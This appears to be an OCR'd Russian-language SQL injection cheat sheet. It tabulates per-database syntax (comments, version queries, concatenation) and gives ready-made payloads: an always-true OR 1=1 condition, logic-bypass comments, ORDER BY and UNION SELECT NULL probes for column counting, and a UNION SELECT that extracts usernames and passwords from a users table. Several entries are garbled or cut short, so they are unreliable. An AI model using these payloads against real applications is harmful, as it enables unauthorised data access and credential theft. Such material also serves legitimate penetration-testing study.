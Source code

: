 | Конструкция | Комментирование остатка строки | Получение версии   | Конкатенация строк                             |
| ---------------------- | ---------------------------------------------------------- | --------------------------------- | --------------------------------------------------------------- |
| MySQL                  | `-- ... `, `/* ... */.`, или `# ...`             | `version()`                     | `concat (string1, string2)`                                 |
| MS SQL                 | `-- ...`                                                | `@@version`                     | `string1 + string2`                                         |
| Oracle                 | `-- ...` или `/* ...`                             | `select bannerfrom v$version` | `string1 \|\| string2 `или `concat (string1, string2)` |
| PostgreSQL             | `-- ...`                                                | `SELECT version()`              | `string1 \|\| string2`, `CONCAT('a','b') `                  |

| Получение скрытых данных | Подрыв логики приложения |
| ---------------------------------------------- | ---------------------------------------------- |
| `'+OR+1=1- -`                                | `' -- `                                      |

| Определение количества<br />столбцов | Поиск столбцов<br />с полезным типом данных | Извлечение данных                                | Получение нескольк<br />их значений в одном столбце |
| ------------------------------------ | ------------------------------------------- | ------------------------------------------------ | --------------------------------------------------- |
| `'+ORDER+BY+1--`                     |                                             |                                                  |                                                     |
| `'+ORDER+BY+2--`                     |                                             |                                                  |                                                     |
| `'+ORDER+BY+3--`                     |                                             | `'+UNION+SELECT+username,+password+FROM+users--` | `' UNION SELECT username`                           |
| `'+UNION+SELECT+NULL--`              |                                             |                                                  |                                                     |
| `'+UNION+SELECT+NULL,NULL--`         |                                             |                                                  |                                                     |
| `'+UNION+SELECT+NULL,NULL,NULL--`    | `'+UNION+SELECT+'a',NULL,NULL--`            |                                                  |                                                     |
| `'+UNION+SELECT+NULL,'a',NULL--`     |                                             |                                                  |                                                     |
| `'+UNION+SELECT+NULL,NULL,'a'--`     |                                             |                                                  |                                                     |
